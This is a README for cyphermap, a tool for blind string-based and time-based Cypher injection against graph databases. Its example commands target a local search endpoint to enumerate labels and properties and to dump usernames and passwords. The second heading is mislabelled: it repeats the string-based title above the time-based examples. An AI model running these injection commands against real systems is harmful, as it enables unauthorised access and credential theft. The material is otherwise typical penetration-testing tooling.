# cyphermap
A tool for mapping cypher databases. It supports string-based blind cypher injection as well as (beta) time-based cypher injection. This is tool is very simplistict but for me it works :) Below are sample use cases.

## Blind string-based enumeration

Listing labels:
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -L
```

Listing all properties in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -P user
```

Dump key values for property 'username' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -P user -K username
```

Dump key values for properties 'username' and 'password' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -s Sarah -P user -K username,password
```

## Blind string-based enumeration

Listing labels:
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -L
```

Listing all properties in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -P user
```

Dump key values for property 'username' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -P user -K username
```

Dump key values for properties 'username' and 'password' in relation to label 'user':
```
./cyphermap.py -u "http://127.0.0.1:8001/search" -d "search=a*" -c "session=032bdb4a-9dda-4db7-9b08-6a46df575387;"  -t 1 -P user -K username,password
```
